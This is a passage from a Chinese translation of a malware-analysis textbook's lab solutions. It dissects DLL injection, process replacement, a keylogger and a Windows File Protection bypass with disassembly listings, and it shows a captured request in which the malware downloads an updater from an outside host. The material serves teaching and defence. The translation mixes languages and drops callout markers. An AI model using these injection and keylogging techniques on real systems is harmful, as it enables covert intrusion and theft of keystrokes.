当我们检查 sub_401000 时，我们看到在传递给函数的 PID 之后，动态解析的导入函数 EnumProcessModules 在 OpenProcess 之后被调用。接下来，我们看到在处调用 dword_40870C（GetModuleBaseNameA），如列表 12-2L 所示。

00401078 将 104h 压入栈

0040107D 将[ebp+Str1]的地址加载到 ecx 寄存器

00401083 压入 ecx

00401084 将[ebp+var_10C]的值移动到 edx 寄存器

0040108A 压入 edx

0040108B 将 eax 寄存器的值移动到[ebp+hObject]

0040108E 压入 eax

0040108F 调用 dword_40870C ；GetModuleBaseNameA 00401095 压入 0Ch；MaxCount **1 2**

00401097 压入 Str2 的偏移量；“explorer.exe”

0040109C 将[ebp+Str1]的地址加载到 ecx 寄存器

004010A2 压入 ecx；Str1

004010A3 调用 _strnicmp 

*列表 12-2L：与 explorer.exe 比较的字符串*

动态解析的函数 GetModuleBaseNameA 用于将 PID 转换为进程名称。在此调用之后，我们看到在处的比较

在使用 GetModuleBaseNameA 获取的字符串（Str1）和 explorer.exe（Str2）之间。恶意软件正在内存中寻找*explorer.exe*进程。

一旦找到*explorer.exe*，sub_401000 中的函数将返回 1，主函数将调用 OpenProcess 来打开一个句柄。如果恶意软件成功获取进程句柄，列表 12-3L 中的代码将执行，并将句柄 hProcess 用于操作进程。

0040128C 压入 4；flProtect 0040128E 压入 3000h；flAllocationType 00401293 压入 104h ；

dwSize

00401298 压入 0；lpAddress 0040129A 将[ebp+**hProcess**]的值移动到 edx 寄存器

004012A0 压入 edx；hProcess 004012A1 调用 ds:**VirtualAllocEx** 

004012A7 将 eax 的值移动到[ebp+**lpParameter**] 

004012AD 比较 ebp+lpParameter 的值是否为 0

004012B4 jnz short loc_4012BE

...

实验解决方案

**587**

[www.it-ebooks.info](http://www.it-ebooks.info/)

004012BE 压入 0；lpNumberOfBytesWritten 004012C0 压入 104h；nSize 004012C5 将[ebp+**Buffer**]的地址加载到 eax 寄存器

004012CB 压入 eax；lpBuffer 004012CC 将[ebp+**lpParameter**]的值移动到 ecx 寄存器

004012D2 压入 ecx；lpBaseAddress 004012D3 将[ebp+**hProcess**]的值移动到 edx 寄存器

004012D9 压入 edx；hProcess 004012DA 调用 ds:**WriteProcessMemory** 

*列表 12-3L：向远程进程写入字符串*

在清单 12-3L 中，我们看到对 VirtualAllocEx 的调用。这将在*explorer.exe*进程中动态分配内存：通过在处推送 dwSize，分配了 0x104 字节。如果 VirtualAllocEx 成功，分配的内存的指针将移动到 lpParameter 中，与进程句柄一起传递给 WriteProcessMemory，以便向*explorer.exe*写入数据。写入进程的数据由粗体的 Buffer 参数引用。

为了理解被注入的内容，我们需要追踪代码到 Buffer 被设置的地方。我们发现它被设置为当前目录的路径附加 Lab12-01.dll。现在我们可以得出结论，这种恶意软件将*Lab12-01.dll*的路径写入*explorer.exe*进程。

如果恶意软件成功将 DLL 的路径写入*explorer.exe*，清单 12-4L 中的代码将执行。

004012E0 push offset ModuleName ; "kernel32.dll"

004012E5 call ds:**GetModuleHandleA**

004012EB mov [ebp+hModule], eax

004012F1 push offset aLoadlibrarya ; "LoadLibraryA"

004012F6 mov eax, [ebp+hModule]

004012FC push eax ; hModule 004012FD call ds:**GetProcAddress**

00401303 mov [ebp+lpStartAddress], eax 

00401309 push 0 ; lpThreadId 0040130B push 0 ; dwCreationFlags 0040130D mov ecx, [ebp+lpParameter]

00401313 push ecx ; lpParameter 00401314 mov edx, [ebp+lpStartAddress]

0040131A push edx  ;

lpStartAddress

0040131B push 0 ; dwStackSize 0040131D push 0 ; lpThreadAttributes 0040131F mov eax, [ebp+**hProcess**]

00401325 push eax ; hProcess 00401326 call ds:CreateRemoteThread

*清单 12-4L：创建远程线程*

在清单 12-4L 中，对 GetModuleHandleA 和 GetProcAddress（粗体）的调用将用于获取 LoadLibraryA 的地址。LoadLibraryA 的地址在*explorer.exe*中与在恶意软件（*Lab12-01.exe*）中相同，LoadLibraryA 的地址显示在。lpStartAddress 在处提供给 CreateRemoteThread，以便强制*explorer.exe*调用 LoadLibraryA。

**588**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

LoadLibraryA 的参数通过 CreateRemoteThread 传递给 lpParameter，该字符串包含*Lab12-01.dll*的路径。这反过来在远程进程中启动一个线程，该线程使用 Lab12-01.dll 的参数调用 LoadLibraryA。

现在我们可以得出结论，这种恶意软件可执行文件将*Lab12-01.dll*注入到*explorer.exe*中。

现在我们知道了注入的位置和内容，我们可以尝试停止那些讨厌的弹出窗口，启动进程资源管理器来帮助我们。如图 12-1L 所示，我们在进程列表中选择*explorer.exe*，然后选择**视图****显示下窗格**和**视图****下窗格视图****DLLs**。

滚动结果窗口，我们看到 *Lab12-01.dll* 被列为加载到 *explorer.exe* 的内存空间中。使用 Process Explorer 是发现 DLL 注入的一种简单方法，并且有助于确认我们的 IDA Pro 分析。要停止弹出窗口，我们可以使用 Process Explorer 杀死 *explorer.exe*，然后通过选择 **文件****运行** 并输入 **explorer** 来重新启动它。

**1 2**

*图 12-1L：Process Explorer 视图显示注入的 DLL*

分析完 *Lab12-01.exe* 后，我们继续分析 *Lab12-01.dll*，看看它是否除了创建消息框之外还做了其他事情。当我们用 IDA Pro 分析 *Lab12-01.dll* 时，我们看到它除了创建一个线程外，几乎没有做其他事情，该线程随后又创建了一个新的线程。清单 12-5L 中的代码来自第一个线程，一个每分钟（0xEA60 毫秒）创建一个线程的循环。

10001046 mov ecx, [ebp+var_18]

10001049 push ecx

1000104A push offset Format ; "Practical Malware Analysis %d"

1000104F lea edx, [ebp+Parameter]

10001052 push edx ; 目标

10001053 call _sprintf 

10001058 add esp, 0Ch

1000105B push 0 ; lpThreadId 1000105D push 0 ; dwCreationFlags 1000105F lea eax, [ebp+Parameter]

10001062 push eax ; lpParameter 10001063 push offset **StartAddress**  ;

lpStartAddress

10001068 push 0 ; dwStackSize 1000106A push 0 ; lpThreadAttributes 1000106C call ds:**CreateThread**

实验解决方案

**589**

[www.it-ebooks.info](http://www.it-ebooks.info/)

10001072 push 0EA60h ; dwMilliseconds 10001077 call ds:**Sleep**

1000107D mov ecx, [ebp+**var_18**]

10001080 add ecx, 1 

10001083 mov [ebp+var_18], ecx

*清单 12-5L：分析由 Lab12-01.dll 创建的线程*

新创建的线程在处，由 IDA Pro 标记为 StartAddress，创建了一个显示“按 OK 重新启动”的消息框，并接受一个参数，该参数由处的 sprintf 设置，作为框的标题。此参数是格式化字符串

"Practical Malware Analysis %d"，其中 %d 被存储在 var_18 中的计数器替换，该计数器在处递增。我们得出结论，这个 DLL 除了每分钟递增一次的烦人消息框之外，没有做其他任何事情。

**实验 12-2 解决方案**

***简短答案***

1.

该程序的目的是在暗中启动另一个程序。

2.

该程序使用进程替换来隐藏执行。

3.

恶意有效载荷存储在程序的资源部分。该资源类型为 UNICODE，名称为 LOCALIZATION。

4.

存储在程序资源部分的恶意有效载荷是 XOR 编码的。此解码例程可以在 sub_40132C 中找到。XOR 字节位于 0x0040141B。

5.

使用 sub_401000 函数对字符串进行 XOR 编码。

***详细分析***

由于我们已经在第三章的实验室中分析了这个二进制文件，让我们首先使用 IDA Pro 打开文件并查看函数导入。列表中的许多函数提供的信息很少，因为它们被所有 Windows 可执行文件普遍导入，但有一些突出。具体来说，CreateProcessA、GetThreadContext 和 SetThreadContext 表明该程序创建新进程并修改进程的执行上下文。导入 ReadProcessMemory 和 WriteProcessMemory 告诉我们程序正在直接读写进程内存空间。导入 LockResource 和 SizeOfResource 告诉我们数据可能存储的位置，这些数据对进程很重要。我们将首先关注位于 0x0040115F 的 CreateProcessA 函数调用的目的，如列出 12-6L 所示。

00401145 lea edx, [ebp+ProcessInformation]

00401148 push edx  ; lpProcessInformation 00401149 lea eax, [ebp+StartupInfo]

0040114C push eax ; lpStartupInfo 0040114D push 0 ; lpCurrentDirectory 0040114F push 0 ; lpEnvironment 00401151 push 4  ;

dwCreationFlags

**590**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00401153 push 0 ; bInheritHandles 00401155 push 0 ; lpThreadAttributes 00401157 push 0 ; lpProcessAttributes 00401159 push 0 ; lpCommandLine 0040115B mov ecx, [ebp+lpApplicationName]

0040115E push ecx ; lpApplicationName 0040115F call ds:**CreateProcessA**

...

00401191 mov ecx, [ebp+ProcessInformation.hThread]

00401194 push ecx ; hThread 00401195 call ds:GetThreadContext 

*列出 12-6L：创建挂起进程并访问主线程的上下文* 在列出 12-6L 的  处，我们看到一个 push 4，IDA Pro 将其标记为参数 dwCreationFlags。MSDN 文档中关于 CreateProcess 的说明告诉我们，这是一个 CREATE_SUSPENDED 标志，允许创建进程但不启动。进程将不会执行，直到通过 ResumeThread API 启动主进程线程。

在  处，我们看到程序正在访问线程的上下文。GetThreadContext 的 hThread 参数来自与  处传递给 CreateProcessA 的相同缓冲区，这告诉我们程序正在访问挂起线程的上下文。获取线程句柄很重要，因为程序将使用线程句柄与挂起进程交互。

**1 2**

在调用 GetThreadContext 之后，我们看到上下文被用于 ReadProcessMemory 的调用中。为了更好地确定程序如何使用上下文，我们需要在 IDA Pro 中添加 CONTEXT 结构。要添加此标准结构，请点击 **Structures** 选项卡并按 INS 键。然后，点击 **Add Standard Structure** 按钮，找到名为 CONTEXT 的结构。

一旦添加了结构，右键单击位置 0x004011C3 以允许解析结构偏移，如图 12-2L 所示。如图所示，偏移 0xA4 实际上通过 [eax+CONTEXT._Ebx] 引用了线程的 EBX 寄存器。

*图 12-2L：IDA Pro 结构偏移解析*

新创建的挂起进程的 EBX 寄存器始终包含指向进程环境块（PEB）数据结构的指针。如列表 12-7L 所示，在处，程序将 PEB 数据结构增加 8 字节，并将该值推入栈中作为内存读取的起始地址。

实验室解决方案

**591**

[www.it-ebooks.info](http://www.it-ebooks.info/)

004011B8 push 0 ; lpNumberOfBytesRead 004011BA push 4  ;

nSize

004011BC lea edx, [ebp+Buffer]

004011BF push edx ; lpBuffer 004011C0 mov eax, [ebp+lpContext]

004011C3 mov ecx, [eax+CONTEXT._Ebx]

004011C9 add ecx, 8 

004011CC push ecx ; lpBaseAddress 004011CD mov edx, [ebp+ProcessInformation.hProcess]

004011D0 push edx ; hProcess 004011D1 call ds:**ReadProcessMemory**

*列表 12-7L：读取 PEB 数据结构*

因为 PEB 数据结构不是 IDA Pro 标准数据结构的一部分，我们可以使用网络搜索或 WinDbg 来帮助确定 PEB 数据结构偏移 8 处的值：指向 ImageBaseAddress 或加载的可执行文件的起始地址。将此地址作为读取位置，读取处的 4 个字节，我们看到 IDA Pro 标记为 Buffer 的部分将包含挂起进程的 ImageBase。

程序使用 GetProcAddress 在 0x004011E8 处手动解析导入的 UnMapViewOfSection，在 0x004011FE 处，ImageBaseAddress 是 UnMapViewOfSection 的参数。调用 UnMapViewOfSection 将从内存中移除挂起的进程，此时程序将无法执行。

在列表 12-8L 中，我们看到推入栈中的参数用于调用 VirtualAllocEx。

00401209 push 40h ; flProtect 0040120B push 3000h ; flAllocationType 00401210 mov edx, [ebp+var_8]

00401213 mov eax, [edx+50h]

00401216 push eax ; dwSize 00401217 mov ecx, [ebp+var_8]

0040121A mov edx, [ecx+34h]

0040121D push edx ; lpAddress 0040121E mov eax, [ebp+ProcessInformation.hProcess]

00401221 push eax ; hProcess 00401222 call ds:VirtualAllocEx

*列表 12-8L：在挂起进程中分配执行内存* 注意，此列表显示程序在挂起进程的地址空间内分配内存，在处。这是需要进一步调查的行为。

函数开始时，程序检查 0x004010FE 处的 MZ 魔数值和 0x00401119 处的 PE 魔数值。如果检查有效，我们知道 var_8 包含指向内存中加载的 PE 头的指针。

在处，程序请求在基于缓冲区的 PE 文件的 ImageBase 地址处分配内存，这告诉 Windows 加载器**592**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

在内存中加载可执行文件的位置。在处，程序请求由 PE 头中的 ImageSize 值指定的内存大小（偏移量为 0x50）。最后，在处，我们使用 MSDN 文档来确定内存是以 PAGE_EXECUTE_READWRITE 权限分配的。

一旦内存已分配，0x00401251 处的 WriteProcessMemory

将 PE 文件从开始写入挂起进程内刚分配的内存。写入的字节数来自 PE 头的 0x54 偏移量，SizeOfHeaders。这个第一个 WriteProcessMemory 将 PE 文件头复制到挂起的进程中，这表明这个程序正在将 PE 文件移动到另一个进程的地址空间。

接下来，在列表 12-9L 中，我们看到处的循环，循环计数器 var_70

在 0x00401257 处初始化为 0。

00401257 mov

[ebp+var_70],

0

0040125E jmp

short

loc_401269

00401260 loc_401260:

; CODE XREF: sub_4010EA+1CD_j

00401260 mov eax, [ebp+var_70]

00401263 add eax, 1

00401266 mov [ebp+var_70], eax

00401269

00401269 loc_401269: ; CODE XREF: sub_4010EA+174_j 00401269 mov ecx, [ebp+var_8]

0040126C xor edx, edx

0040126E mov dx, [ecx+6]

**1 2**

00401272 cmp [ebp+var_70], edx 

00401275 jge short loc_4012B9

00401277 mov eax, [ebp+var_4]

0040127A mov ecx, [ebp+lpBuffer]

0040127D add ecx, [eax+3Ch] 

00401280 mov edx, [ebp+var_70]

00401283 imul edx, 28h 

00401286 lea eax, [ecx+edx+0F8h]

0040128D mov [ebp+var_74], eax

00401290 push 0 ; lpNumberOfBytesWritten 00401292 mov ecx, [ebp+var_74]

00401295 mov edx, [ecx+10h]

00401298 push edx ; nSize 00401299 mov eax, [ebp+var_74]

0040129C mov ecx, [ebp+lpBuffer]

0040129F add ecx, [eax+14h]

004012A2 push ecx ; lpBuffer 004012A3 mov edx, [ebp+var_74]

004012A6 mov eax, [ebp+lpBaseAddress]

004012A9 add eax, [edx+0Ch]

004012AC push eax ; lpBaseAddress 004012AD mov ecx, [ebp+ProcessInformation.hProcess]

004012B0 push ecx ; hProcess 004012B1 call ds:WriteProcessMemory

004012B7 jmp short loc_401260 

*列表 12-9L：将 PE 部分复制到内存中*

实验解决方案

**593**

[www.it-ebooks.info](http://www.it-ebooks.info/)

循环计数器与 PE 偏移量 6 字节处的值进行比较

在处的头信息，即 NumberOfSections。因为可执行文件部分包含运行可执行文件所需的数据——例如代码、数据、重定位等——我们知道这个循环很可能是将 PE 可执行文件部分复制到挂起的进程中，但让我们确认一下。

var_4 包含指向内存中 MZ/PE 文件的指针（由 IDA Pro 标记为 lpBuffer），在 0x004010F3 位置初始化。我们知道 PE 可执行文件的第一部分是 MZ 头，在处，我们看到程序将 0x3C（PE 头的偏移量）添加到 MZ 头缓冲区，这使得 ECX 指向 PE 头的开始。在处，我们看到获取了一个指针。EDX 在循环第一次时为 0，因此我们可以从指针计算中移除 EDX。这留下了 ECX 和 0xF8。

查看 PE 标头偏移量，我们看到 0xF8 是 IMAGE_HEADER_SECTION 数组的开始。简单的 sizeof(IMAGE_HEADER_SECTION) 告诉我们这个结构是 40 字节，这与在  处循环计数器上执行的乘法相匹配。

现在，我们可以通过添加 IMAGE_DOS_HEADER、IMAGE_NT_HEADERS 和 IMAGE_SECTION_HEADER 标准结构来再次利用 IDA Pro。利用我们在不同阶段对每个寄存器的了解，我们可以将列表 12-9L 中的反汇编代码转换为列表 12-10L 中的更易读版本（此列表中的更改以粗体显示）。

00401260 loc_401260:

; CODE XREF: sub_4010EA+1CD_j

00401260 mov eax, [ebp+var_70]

00401263 add eax, 1

00401266 mov [ebp+var_70], eax

00401269

00401269 loc_401269: ; CODE XREF: sub_4010EA+174_j 00401269 mov ecx, [ebp+var_8]

0040126C xor edx, edx

0040126E mov dx,[ecx+**IMAGE_NT_HEADERS.FileHeader.NumberOfSections**]

00401272 cmp [ebp+var_70], edx

00401275 jge short loc_4012B9

00401277 mov eax, [ebp+var_4]

0040127A mov ecx, [ebp+lpBuffer]

0040127D add ecx, [eax+**IMAGE_DOS_HEADER.e_lfanew**]

00401280 mov edx, [ebp+var_70]

00401283 imul edx, 28h

00401286 lea eax, [ecx+edx+(**size IMAGE_NT_HEADERS**)]

0040128D mov [ebp+var_74], eax

00401290 push 0 ; lpNumberOfBytesWritten 00401292 mov ecx, [ebp+var_74]

00401295 mov edx, [ecx+**IMAGE_SECTION_HEADER.SizeOfRawData**]

00401298 push edx ; nSize

00401299 mov eax, [ebp+var_74]

0040129C mov ecx, [ebp+lpBuffer]

0040129F add ecx, [eax+**IMAGE_SECTION_HEADER.PointerToRawData**]

004012A2 push ecx ; lpBuffer 004012A3 mov edx, [ebp+var_74]

004012A6 mov eax, [ebp+lpBaseAddress]

004012A9 add eax, [edx+**IMAGE_SECTION_HEADER.VirtualAddress**]

**594**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

004012AC push eax ; lpBaseAddress 004012AD mov ecx, [ebp+ProcessInformation.hProcess]

004012B0 push ecx ; hProcess 004012B1 call ds:WriteProcessMemory

004012B7 jmp short loc_401260

*列表 12-10L：使用 IDA Pro 结构将 PE 部分复制到内存中* 在列表 12-10L 中，我们可以更清楚地看到，每个部分标题的 SizeOfRawData、PointerToRawData 和 VirtualAddress 值被用于执行复制操作，证实了我们之前的怀疑，即程序将每个部分复制到挂起进程的内存空间中。程序已经采取了必要的步骤将可执行文件加载到另一个进程的地址空间中。

在列表 12-11L 中，我们看到程序使用了 SetThreadContext，它将 EAX 寄存器设置为刚加载到挂起进程内存空间的可执行文件的入口点。一旦程序执行了 ResumeThread，它就成功实现了使用 CreateProcessA 在函数开头创建的进程的进程替换。

004012DB

mov

eax, [ebp+var_8]

004012DE

mov

ecx, [ebp+lpBaseAddress]

004012E1

add

ecx, [eax+IMAGE_NT_HEADERS.OptionalHeader.AddressOfEntryPoint]

**1 2**

004012E4

mov

edx, [ebp+lpContext]

004012E7

mov

[edx+CONTEXT._Eax], ecx 

004012ED

mov

eax, [ebp+lpContext]

004012F0

push

eax ; lpContext

004012F1

mov

ecx, [ebp+ProcessInformation.hThread]

004012F4

push

ecx ; hThread

004012F5

call

ds:**SetThreadContext**

004012FB

mov

edx, [ebp+ProcessInformation.hThread]

004012FE

push

edx ; hThread

004012FF

call

ds:ResumeThread 

*清单 12-11L：恢复挂起的进程*

既然我们知道正在发生进程替换，那么确定被替换的进程和被暗中执行的进程（隐藏在另一个进程内部）就很重要了。首先，我们需要发现 lpApplicationName 的来源，这是 IDA Pro 在清单 12-6L 中看到的标签

being provided to the CreateProcessA API call.

Pressing CTRL-X with the cursor at the start of the sub_4010EA function shows all cross-references, including the callers sub_40144B and main. Following main brings us to 0x00401544, where the variable Dst is loaded into a register to be passed to sub_4010EA as the process name for CreateProcessA. Placing the cursor over Dst highlights the variable throughout the function, thereby allowing us to follow the variable in order to determine its origin.

The variable is first seen as shown in Listing 12-12L at , as the second parameter to sub_40149D.

实验室解决方案

**595**

[www.it-ebooks.info](http://www.it-ebooks.info/)

00401508 push 400h ; uSize 0040150D lea eax, [ebp+Dst] 

00401513 push eax ; Str

00401514 push offset aSvchost_exe  ;

"\\svchost.exe"

00401519 调用子程序 sub_40149D

*清单 12-12L：构建路径字符串*

快速查看 sub_40149D 显示它是一个简单的函数，用于复制

%SystemRoot%\System32\ 传入第二个参数，然后将第一个参数连接到该路径的末尾。由于 Dst 是第二个参数，它接收这个新路径，因此我们回溯到 sub_40149D 的第一个参数 ，我们可以看到它是 \\svchost.exe。这告诉我们被替换的进程是 *%SystemRoot%\System32\svchost.exe*。

现在我们知道程序正在启动 *svchost.exe*，但我们仍需确定正在替换 *svchost.exe* 的进程。为此，我们遵循 PE

buffer passed to sub_4010EA by following the variable lpBuffer at 0x00401539, just as we backtracked Dst earlier.

我们在清单 12-13L 中定位到 lpBuffer，它在  处接收 EAX。通过检查前面的指令，我们找到一个函数调用在 。记住 EAX 是函数的返回值，我们知道缓冲区来自 sub_40132C 函数，该函数似乎接受变量 hModule，这是程序本身的内存指针，*Lab12-02.exe*。

00401521 mov ecx, [ebp+hModule]

00401527 push ecx ; hModule 00401528 call sub_40132C 

0040152D add esp, 4

00401530 mov [ebp+lpBuffer], eax 

*列表 12-13L：加载替换 *svchost.exe* 的可执行文件* 函数 sub_40132C 调用了 FindResource、LoadResource、LockResource、SizeOfResource、VirtualAlloc 和 memcpy 函数。程序将可执行文件资源部分的数据复制到内存中。我们将使用 Resource Hacker 来查看资源部分的项目并将它们导出到独立的文件中。图 12-3L 显示了 Resource Hacker 中的 *Lab12-02.exe*，其中资源部分包含一个编码的二进制文件。我们可以使用 Resource Hacker 来导出这个二进制文件。

在这一点上，我们需要继续检查反汇编代码以确定可执行文件的解码方式。在 0x00401425 处，我们看到缓冲区被传递到 sub_401000 函数，这看起来像是一个 XOR 程序。回顾在 0x0040141B 位置传递给函数的第三个参数，我们看到 0x41。使用 WinHex，我们可以快速地通过选择 **编辑****修改数据****XOR** 并输入 **0x41** 来对之前从 Resource Hacker 导出的整个文件进行 XOR 操作。执行此转换后，我们得到一个有效的 PE 可执行文件，稍后用于替换 *svchost.exe* 的一个实例。

**596**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



*图 12-3L：Resource Hacker 显示资源部分中的编码二进制文件* **注意**

*WinHex 是一个可用的十六进制编辑器，网址为 http://www.x-ways.net/winhex/，其免费* *试用版对恶意软件分析很有用。我们在这里使用它进行说明，但* *大多数十六进制编辑器都可以执行单字节 XOR 操作。*

我们可以得出结论，这种恶意软件从其资源部分解码二进制文件，并在 *svchost.exe* 上使用解码的二进制文件执行进程替换。

**1 2**

**12-3 实验解决方案**

***简答***

1.

该程序是一个键盘记录器。

2.

该程序使用钩子注入来窃取按键。

3.

程序创建名为 *practicalmalwareanalysis.log* 的文件来存储按键记录。

***详细分析***

由于我们已经在第三章的实验中分析了这个二进制文件，并且它作为 Lab 12-2 的一部分被提取出来，让我们首先使用 IDA Pro 打开文件来检查函数导入。其中最有趣的是 SetWindowsHookExA，这是一个允许应用程序钩子或监控 Microsoft Windows 内部事件的 API。

在列表 12-14L 中，我们看到 SetWindowsHookExA 从 main 中被调用 。

MSDN 文档显示第一个参数 0Dh 对应于 WH_KEYBOARD_LL，这可以通过 IDA Pro 标记为 fn 的钩子函数 ID 来启用对键盘事件的监控。程序可能正在对按键进行某些操作。fn 函数将接收按键。

00401053 push eax ; hmod

00401054 push offset fn  ; lpfn

00401059 push 0Dh ; idHook Solutions to Labs

**597**

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040105B call ds:SetWindowsHookExA 

00401061 mov [ebp+hhk], eax

*列表 12-14L：从 main 调用的 SetWindowsHookEx*

在注册接收键盘事件后，程序在从 0x00401076 开始的循环中调用 GetMessageA。程序必须调用 GetMessageA；否则，Windows 不会将消息传递到进程的钩子函数。

循环运行直到产生错误。

导航到函数 fn，我们开始了解程序对其捕获的按键做了什么。fn 是一个具有三个参数的通用函数。它由 HOOKPROC 定义原型。使用 MSDN 文档，我们确定 WH_KEYBOARD_LL 回调实际上是 LowLevelKeyboardProc 回调。我们使用这些信息来解决参数到实际数据结构，这使得我们的工作更容易，因为我们能够读取名称而不是数字偏移量。

要将 IDA 显示从偏移量更改为名称，请将光标置于 0x00401086 并按 Y 键，然后将 lParam 的类型更改为**KBDLLHOOKSTRUCT**。现在您可以转到 0x4010a4，按 T 键并选择**KBDLLHOOKSTRUCT.vkCode**。对 lParam 的引用现在应显示结构变量名而不是数字偏移量。例如，[eax]

在 0x004010A4 处变为[eax+KBDLLHOOKSSTRUCT.vkCode]，如列表 12-15L 中的所示。

0040108F cmp [ebp+wParam], WM_SYSKEYDOWN 

00401096 jz short loc_4010A1

00401098 cmp [ebp+wParam], WM_KEYDOWN 

0040109F jnz short loc_4010AF

004010A1

004010A1 loc_4010A1: ; CODE XREF: fn+10j 004010A1 mov eax, [ebp+lParam]

004010A4 mov ecx, [eax+KBDLLHOOKSTRUCT.vkCode] 

004010A6 push ecx ; Buffer 004010A7 call **sub_4010C7**

*列表 12-15L：钩子函数*

在列表 12-15L 中，我们看到在和处，程序使用 cmp 检查按键的类型，以便一次性处理每个按键。在处，程序将（mov）虚拟键码传递给稍后以粗体显示的函数 sub_4010C7。

检查 sub_4010C7，我们看到程序首先打开一个文件，*practicalmalwareanalysis.log*。在此之后，恶意软件调用 GetForegroundWindow，然后是 GetWindowTextA，如列表 12-16L 所示。首先，GetForegroundWindow 在按键时选择活动窗口，然后使用 GetWindowTextA 获取窗口的标题。这有助于程序提供按键起源的上下文。

004010E6 push offset FileName ; "practicalmalwareanalysis.log"

004010EB call ds:CreateFileA

...

**598**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040110F push 400h ; nMaxCount 00401114 push offset String ; lpString 00401119 call ds:**GetForegroundWindow**

0040111F push eax ; hWnd

00401120 call ds:**GetWindowTextA**

00401126 push offset String ; Str2

0040112B push offset Dest ; Str1

00401130 call _strcmp

*列表 12-16L：打开日志文件并获取窗口标题* 一旦程序将窗口标题写入日志文件，它就会进入一个大的跳转表，如列表 12-17L 所示。在处，我们认识到 var_C 包含传递给函数的虚拟键码，我们看到虚拟键码被用作查找表的索引。从查找表中接收到的值被用作跳转表 off_401441 的索引。

0040120B sub eax, 8 

...

0040121B mov edx, [ebp+var_C]

0040121E xor ecx, ecx

00401220 mov cl, ds:byte_40148D[edx]

00401226 jmp ds:off_401441[ecx*4]  ; switch jump *列表 12-17L：虚拟键码跳转表*

**1 2**

我们通过选择一个值如 VK_SHIFT（0x10）来跟踪查找过程。

在处，从值中减去 8，留下 0x8（0x10 – 0x8）。

查看 byte_40148D 的偏移量 0x8，如列表 12-18L 所示，提供值为 3，存储在 ECX 中。然后，在处将 ECX 乘以 4，得到 0xC，用作 off_401441 的偏移量。这返回 loc_401249 的位置，我们在日志文件中找到写入的字符串[SHIFT]。

byte_40148D db 0, 1, 12h, 12h

db 12h, 2, 12h, 12h

db 3, 4, 12h, 12h

*列表 12-18L：byte_40148D 的偏移量表*

我们可以得出结论，这种恶意软件是一个键盘记录器，它将按键记录到文件*practicalmalwareanalysis.log*中。这个键盘记录器使用 SetWindowsHookEx 来实现其键盘记录功能。

**12-4 实验解决方案**

***简答题**

1.

恶意软件检查给定的 PID 是否为*winlogon.exe*。

2.

*Winlogon.exe*是注入的进程。

3.

将使用 DLL *sfc_os.dll*来禁用 Windows 文件保护。

实验解决方案

**599**

[www.it-ebooks.info](http://www.it-ebooks.info/)

4.

传递给 CreateRemoteThread 的第四个参数是到*sfc_os.dll*中未命名的序号 2（SfcTerminateWatcherThread）的函数指针。

5.

恶意软件从其资源部分中释放一个二进制文件，并用它覆盖旧的 Windows Update 二进制文件（*wupdmgr.exe*）。在覆盖真实的*wupdmgr.exe*之前，恶意软件将其复制到*%TEMP%*目录以供以后使用。

6.

恶意软件将远程线程注入到*winlogon.exe*中，并调用*sfc_os.dll*导出的函数，序号 2（SfcTerminateWatcherThread），以在下次重启之前禁用 Windows 文件保护。CreateRemoteThread 调用是必要的，因为此函数必须在*winlogon.exe*进程中执行。恶意软件通过使用该可执行文件来更新其恶意软件并调用保存到*%TEMP%*目录中的原始 Windows Update 二进制文件来木马化*wupdmgr.exe*。

**详细分析**

我们从基本的静态分析开始。检查导入项，我们看到 CreateRemoteThread，但没有 WriteProcessMemory 或 VirtualAllocEx，这很引人注目。我们还看到资源操作的导入项，例如 LoadResource 和 FindResourceA。使用 Resource Hacker 检查恶意软件，我们注意到资源部分中存储了一个名为 BIN 的附加程序。

接下来，我们转向基本的动态技术。Procmon 显示恶意软件创建了文件 *%TEMP%\winup.exe* 并覆盖了 Windows 更新二进制文件 *%SystemRoot%\System32\wupdmgr.exe*。将下落的 *wupdmgr.exe* 与 BIN 资源部分中的文件进行比较，我们发现它们是相同的。（Windows 文件保护应该恢复原始文件，但它没有。）

运行 Netcat，我们发现恶意软件试图从 *www.practicalmalwareanalysis.com* 下载 *updater.exe*，如列表 12-19L 所示。

GET /updater.exe HTTP/1.1

Accept: */*

Accept-Encoding: gzip, deflate

User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.0.04506.30; .NET CLR 3.0.04506.648) Host: www.practicalmalwareanalysis.com

2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.0.04506.30; .NET CLR 3.0.04506.648) 主机: www.practicalmalwareanalysis.com

Connection: Keep-Alive

*列表 12-19L：运行 Lab12-04.exe 后执行的 HTTP GET 请求* 我们将恶意软件加载到 IDA Pro 中，并滚动到地址 0x00401350 的主函数。在主函数的开始几行，我们看到恶意软件正在解析 Windows 进程枚举中的函数，如列表 12-20L 所示。

004013AA 将 ProcName 的偏移量压入栈中

; " **EnumProcessModules**"

004013AF 将 aPsapi_dll 的偏移量压入栈中 ; " **psapi.dll**"

004013B4 调用 ds:**LoadLibraryA** 

**600**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

004013BA 将 eax 压入栈中

004013BB 调用 ds:**GetProcAddress** 

004013C1 将 dword_40312C 的值移动到 eax 寄存器中 ; 重命名为 myEnumProcessModules *列表 12-20L：动态解析进程枚举导入* 列表 12-20L 还显示了恶意软件使用 LoadLibraryA（在  处）和 GetProcAddress（在  处）手动解析的三个函数之一。

恶意软件将函数指针保存到 dword_40312C（此处为 ）、dword_403128 和 dword_403124。我们将这些全局变量的名称更改，以便在分析中更容易识别对函数的调用，将它们重命名为 myEnumProcessModules、myGetModuleBaseNameA 和 myEnumProcesses。

